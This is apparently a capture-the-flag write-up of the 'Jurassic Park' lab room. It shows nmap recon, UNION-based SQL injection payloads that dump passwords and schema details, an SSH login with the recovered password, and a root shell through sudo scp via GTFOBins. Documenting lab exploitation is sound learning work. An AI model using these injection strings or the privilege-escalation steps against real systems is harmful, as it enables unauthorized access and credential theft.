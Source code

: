 # Jurassic Park

This medium-hard task will require you to enumerate the web application, get credentials to the server and find 5 flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too...

You're also going to want to turn up your devices volume (firefox is recommended). So, deploy the VM and get hacking..

## Recon

Initial `nmap -p-` revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 02:54 UTC
Nmap scan report for ip-10-10-23-246.eu-west-1.compute.internal (10.10.23.246)
Host is up (0.00065s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:C7:70:B4:4A:54 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.83 seconds
```

nikto and dirb against the website revealed a delete page, whose contents was the following:

```
New priv esc for Ubunut??

Change MySQL password on main system!
```

The assets dir was also listable. It contained images and a few audio files, none of which seemed to contain anything of note.

Clicking through the website to `shop.php` there were three packages you could buy. Clicking through on any of them took me to `item.php` with a query param `id` of 1, 2 or 3. The id seemed injectable; some entries, like `id=*` would return a mysql error. Others, like `id='`, would trigger a denied error page with a jurassic park themed error.

sqlmap didnt work - kept timing out (later when I examined the source of the page, there seems to be some anti-sqlmap code in there).

I tried incrementing id, and on id 5 I got a 'development product' with the description:

```
Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?
```

## SQLi

Trying the query `1 union select null, password, null, null, null from users` results in the password `ih8dinos` being printed on screen. I had confirmed the five column select and positioning already through trial and error.

Select into outfile didn't work (--secure-file-priv or whatever was not set). Select `user()` revealed mysql was running as root@localhost. Trying to ssh onto the box with root and `ih8dinos` did not get me access unfortunately.

I discovered the sql inject would only return the last row from its query as a result. Therefore, ih8dinos from above was the password of the final row in the users table. Appending `limit 2` got a second and as far as I could see, the only other password: `D0nt3ATM3`. This also didn't work with ssh.

However, focusing on the room questions:

1. To get the database name, I used: `1 union select distinct null, table_schema, null, null, null from information_schema.tables limit 4` and revealed `park`

2. I used `1 union select null, table_name, null, null, null from information_schema.tables where table_schema = "park" limit 2` to discover just two tables, `items` and `users`. I already know from my injection that `items` has `5` columns

3. `1 union select null, version(), null, null, null` reveals `5.7.25-0ubuntu0.16.04.2`. Going by the answer mask, the answer is `ubuntu 16.04`.

4. Dennis' password could be one of the two I have found so far. `ih8dinos` was the answer.

At this point I tried ssh'ing as `dennis` to the machine, and the password worked, getting me a shell as dennis.

## Flags

**flag1.txt** was in dennis's home dir.

I ran `sudo -l` immediately, and discovered:

```
Matching Defaults entries for dennis on ip-10-10-23-246.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-23-246.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

dennis had a test.sh file saying **flag5.txt** was under /root. I used `sudo scp /root/flag5.txt .` to get flag5 where I could read it.

`find / -name flag* 2>/dev/null` revealed **flag2* at `/boot/grub/fonts/flagTwo.txt`

At this point, I used https://gtfobins.github.io/gtfobins/scp/#sudo to get a root shell using scp, then changed the root password to `hacktheplanet` for good measure.


